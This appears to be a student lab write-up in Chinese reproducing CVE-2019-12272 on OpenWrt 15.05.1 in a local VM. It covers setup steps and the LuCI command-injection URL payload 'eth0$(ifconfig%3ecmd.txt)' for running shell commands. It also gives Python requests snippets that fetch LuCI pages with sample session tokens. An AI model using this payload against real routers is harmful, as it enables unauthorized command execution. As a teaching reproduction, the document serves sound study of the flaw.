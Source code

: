 # CVE-2019-12272漏洞复现

## 实验内容
- [x] 漏洞复现及利用
- [ ] 编写自动化漏洞利用代码

## 实验环境
- openwrt-15.05.1
- win10家庭版

## 实验过程
### 环境搭建
- 镜像文件转换

![](img/镜像文件转换1.png)

![](img/镜像文件转换2.png)

![](img/镜像文件转换3.png)

- 配置网络接口

![](img/配置网络.png)

- 修改openwrt15的IP地址``` vi etc/config/network ```

![](img/修改openwrt15的IP地址.png)

- 安装Luci包

![](img/查看%20USB%20外设的标识信息.png)

![](img/查找并安装驱动.png)

![](img/登录luci.png)

### 漏洞复现
- 用管理员账号登录luci后在``` stok=…… ```后添加``` /admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) ```触发漏洞

![](img/触发漏洞.png)
- 再访问``` http://192.168.56.12/cmd.txt ```获取上一步ifconfig的结果

![](img/获取触发漏洞后的执行结果.png)

- 通过漏洞获取id命令的结果

![](img/id的漏洞利用.png)

![](img/执行结果2.png)

### 漏洞利用
- 通过开发者工具中的``` Copy ```中的``` Copy as cURL (bash) ```
![](img/复制curl命令.png)

- 通过第三方网站例如``` https://curl.trillworks.com/ ```将curl命令转换为python request代码

![](img/得到python代码.png)

- 代码如下
```
import requests

cookies = {
    'sysauth': '050af866c8c8d270e1131305a3a72d14',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': '*/*',
    'Referer': 'http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

params = (
    ('status', '1'),
    ('_', '0.850048633366346'),
)

response = requests.get('http://192.168.56.12/cgi-bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2', headers=headers, params=params, cookies=cookies, verify=False)
```

- 由于还需要获取一些关键参数，因此还需要重新再登陆一次获取luci的curl信息

![](img/获取luci的curl命令.png)

- 以同样的方式在第三方网站中得到python代码
```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.12/',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.12/cgi-bin/luci', headers=headers, verify=False)
```

## 参考资料
- [老师课本及课堂录屏](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)